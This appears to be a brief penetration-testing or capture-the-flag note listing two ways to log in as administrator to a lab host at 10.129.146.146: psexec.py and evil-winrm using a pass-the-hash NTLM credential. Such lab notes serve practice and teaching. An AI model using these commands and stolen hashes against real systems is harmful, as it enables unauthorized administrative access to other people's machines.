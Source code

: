# Login methods

## Login via psexec.py

```
psexec.py adminsitrator@10.129.146.146
```

## Or Login via evil-winrm with hash

```
evil-winrm -i 10.129.146.146 -u administrator -p aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

```
